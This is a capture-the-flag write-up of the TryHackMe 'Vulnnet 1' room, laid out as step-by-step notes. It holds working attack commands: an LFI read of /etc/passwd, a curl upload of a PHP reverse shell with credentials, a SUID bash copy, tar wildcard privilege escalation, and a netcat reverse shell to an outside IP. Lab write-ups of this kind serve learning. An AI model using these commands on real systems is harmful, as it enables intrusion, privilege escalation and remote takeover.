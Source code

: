 # 38. Vulnnet 1 🧭
Names | Details
--------|-----
Source | tryhackme
Level | easy
Os | linux

**Notes :**
#other/GAtactics 
curl


## Gaining Access 😉
- from source code, two javascript found which is available at /js directory
- got two links from those
- got one more link `http://vulnnet.thm/index.php?referer=`, this can be used to read /etc/passwd using curl [[#Important commands 🔥]] 1
- Since we are dealing with an Apache web server, we have to find the `.htpasswd` of the `broadcast.vulnnet.thm` web server. By default, you can view web configurations in the `/etc/apache2/sites-enabled/000-default.conf`. Run the following command to read this file:
- by reading `/etc/apache2/.htpasswd` , I got username and hashed password
- logged in to subdomain with this credeantials
- used curl command to upload phprevshell [[#Important commands 🔥]] 2
- got a revshell


## Maintaining Access 🥷
- found crontab which backing up users home. enumerated target dir and got ssh which is only readable. copied to /var/www/html/files and downloaded from browser, connected with ssh
- on crontab, executing by root, they used tar with absolute path
- copied rootbash to /tmp by abusing path variable
- tar wildcard privilege escalation


## Important commands 🔥
1. curl passwd
	```
	curl http://vulnnet.thm/index.php?referer=/etc/passwd
	```
2. upload with curl
	```php
	curl -F "file=@php-reverse-shell.php" -F "plupload=1" -F "name=php-reverse-shell.php" [http://broadcast.vulnnet.thm/actions/photo_uploader.php](http://broadcast.vulnnet.thm/actions/photo_uploader.php) -u developers:<REDACTED>
	
	this
	curl -F "file=@rev.php" -F "plupload=1" -F "name=rev.php" http://broadcast.vulnnet.thm/actions/photo_uploader.php -u developers:997  
	2761drmfsls
	```
3. copying rootbash to /tmp with suid permission
	```
	cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash
	```
4. tar wildcard
	```bash
	echo > '--checkpoint=1'
	echo > '--checkpoint-action=exec=sh shell.sh'
	```
5. inside shell.sh
	```
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.229.254 4444 >/tmp/f
	```
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- add in etc/hosts
- if you've found subdomains, add subdomains also `/etc/hosts`
- for lfi, check source code also
- search for exploit


--------------------------------
**By Nibras Muhammed** 🤓🖥️